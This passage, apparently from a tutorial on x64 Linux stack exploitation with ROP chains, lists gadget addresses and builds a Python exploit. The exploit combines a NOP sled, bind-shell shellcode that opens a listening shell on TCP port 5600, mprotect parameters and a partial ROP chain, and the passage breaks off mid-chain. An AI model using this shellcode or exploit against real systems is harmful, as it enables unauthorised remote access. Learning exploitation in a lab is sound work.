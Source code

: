 ```
  0x555555554754                 c3  ret
```
rsi and rdx to load flags:
```
LIBC: note that addresses may change on your machine; also if we forget to de-activate ASLR
  0x7ffff7dee347                 5e  pop rsi
  0x7ffff7dee348                 c3  ret
```
Also note that if you are unable to find complete pop REG / ret addresses worry not, [some tutorials](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-3-rop-chains-3cdcf17e8826) will show you that you can find somethinglike pop rsi; pop r15, ret and that can be used as well, you'll need to add some extra padding (ex \x90 * 8) on the stack to fill that r15 and continue to ret normally. At the end of the day it's all about understanding how the thing works and being able to adapt.
```
LIBC: note that addresses may change on your machine; also if we forget to de-activate ASLR
  0x7ffff7baf702                 5a  pop rdx
  0x7ffff7baf703                 c3  ret
```
So, if we combine that with what we already done on the previous tutorials, we can craft some exploit like this one here:
```Py
import sys
import struct

stck = lambda x : struct.pack ('<Q',x) # to cover for the little endian

nop_sled = b"\x90"*80+b"\xCC"*8 # breakpoints added for easy debugging

# Linux x86_64 87 bytes bind shell shellcode; BIND 5600 TCP
# https://www.exploit-db.com/exploits/41128
bind_shell = b"\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6"
bind_shell +=b"\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97"
bind_shell +=b"\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52"
bind_shell +=b"\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58"
bind_shell +=b"\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e"
bind_shell +=b"\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48"
bind_shell +=b"\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d"
bind_shell +=b"\x3c\x24\xb0\x3b\x0f\x05"

libc_base_address = 0x7ffff79e2000 # not needed for this tutorial

rwx = 0x00007ffffffde000 # base address of the stack

# params for the mprotect() call
pop_rdi = 0x555555554753
pop_rsi = 0x7ffff7dee347
pop_rdx = 0x7ffff7b12516

# base address for the shellcode, why that position? There is no particular reason, it just fits well there
shellcode_addr=0x7fffffffdf20  # position 80 

# address of the mprotect() syscall
mprotect_virtual = 0x7ffff7afd7e0

exploit = b"\x90"* 10
exploit += nop_sled
exploit += bind_shell
exploit += b"\x41" *  (204-len(exploit)) 

exploit += b"BBBBBBBB" #RBP overwrite
exploit += b"BBBB" # stack alingment
exploit += stck(pop_rdi)
```